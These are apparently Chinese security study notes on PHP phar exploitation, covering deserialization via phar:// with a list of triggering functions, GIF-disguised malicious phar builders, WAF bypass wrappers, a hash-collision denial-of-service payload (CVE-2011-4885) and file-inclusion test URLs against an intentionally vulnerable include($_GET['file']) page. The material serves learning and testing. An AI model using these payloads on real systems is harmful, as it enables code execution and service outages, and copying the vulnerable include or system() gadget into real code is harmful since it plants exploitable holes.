





# Phar的文件包含与反序列化

## 反序列化

### 参考

- https://blog.zsxsoft.com/post/38
- https://paper.seebug.org/680/

### 利用条件

- phar文件要能够上传到服务器端。
- 存在`__destruct`,`__wakeup`魔术方法作为跳板
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。

### 受影响的函数列表


对于函数影响范围的深入追求参看[zsx](https://blog.zsxsoft.com/post/38)师傅的文章，简单如下：

- exif (exif_thumbnail、exif_imagetype)
- gd (imageloadfont、imagecreatefrom..)
- hash (hash_hmac_file、hash_file、hash_update_file、md5_file、sha1_file)
- file/url (get_meta_tags、get_headers)
- standard (getimagesize、getimagesizefromstring)
- zip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
- Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
- MySQL (要设置local-infile=1、secure_file_priv=""，因为是非默认设置)
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```

### 利用

#### 测试

##### 生成恶意phar代码

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php phpinfo();__HALT_COMPILER();?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

其中`xxx<?php xxx; __HALT_COMPILER();?>`是phar文件的stub，可用理解为一个身份id。其中stub的内容必须以`__HALT_COMPILER();?>`结尾，否则phar扩展将无法识别这个文件为phar文件。具体参考[seebug](https://paper.seebug.org/680/)的文章。

##### phar反序列化已构造的恶意php文件

```php
<?php 
    class TestObject {
    	public function __wakeup() {
            echo 'Destruct wakeup';
        }
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```



##### Bypass

如果waf过滤了phar://，则可以使用：

```
compress.bzip2://phar://
compress.zlib://
```

##### 伪造为其他类型的文件

phar文件可通过添加幻术伪造为其他类型的文件

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```



## 拒绝服务攻击

### PHP内核哈希表碰撞攻击

进行拒绝服务攻击(PHP内核哈希表碰撞攻击（CVE-2011-4885）)

```php
<?php
set_time_limit(0);
$size= pow(2, 16);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$new_obj = new stdClass;
$new_obj->hacker = $array;
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['hacker.php'] = '<?php ?>';
$p->setMetadata($new_obj);
$p->setStub('GIF<?php __HALT_COMPILER();?>');
```
反序列化上文生成的恶意文件

```php
<?php
set_time_limit(0);
$startTime = microtime(true);
file_exists("phar://avatar.phar");
$endTime = microtime(true);
echo '执行时间：  '.($endTime - $startTime). ' 秒'; 
```



## 文件包含

### 利用范围

- PHP 5 >= 5.3.0、 PECL phar >= 1.0.0
- PHP 7、 PECL phar >= 1.0.0

### 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

### 测试代码

index.php

```php
<?php
include($_GET['file']);
?>
```
shell.txt
```php
<?php phpinfo() ?>
```
把sehll.txt压缩成test.zip文件

可用以下姿势进行包含
```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/shell.txt   //绝对路径
index.php?file=phar://test.zip/shell.txt   //相对路径
```



### 